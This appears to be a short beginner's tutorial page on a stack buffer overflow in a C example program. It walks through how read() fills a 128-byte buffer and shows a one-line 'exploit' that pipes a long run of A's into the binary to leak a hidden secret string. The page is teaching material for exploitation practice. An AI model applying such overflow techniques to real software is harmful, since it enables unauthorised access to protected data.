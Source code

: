 # Stack 

### Example:

<script src="https://gist.github.com/n41n4/496691de46d5202aec5585a722763ffa.js?file=snippet.c"></script>

### AIM:
To print the secret.

### Analysis
Execution flow of above example
1. A secret variable is created with some secret value.
2. Then a buffer is initialized with the capacity of 128.
3. User input will be stored in buffer variable using `read` function.
3. Finally User input will be echoed back with welcome using printf.

```bash
inc0gn1t0@inc0gn1t0-VirtualBox:~/Redacted$ ./snippet 
Guest
Welcome Guest
```

### Exploit:


```bash

inc0gn1t0@inc0gn1t0-VirtualBox:~/Redacted$ echo "AAAAAAAAAAAAA......AAAAAAAA" | ./secret 
Welcome AAAAAAAAAAAAA......AAAAAAAASup3r_S3cr37_S7r1n6

```

### Explanation
Here the culprit is `read` function.In this context `read` is used to take input from user.


### Practise
- [Task](Practice-1.html)
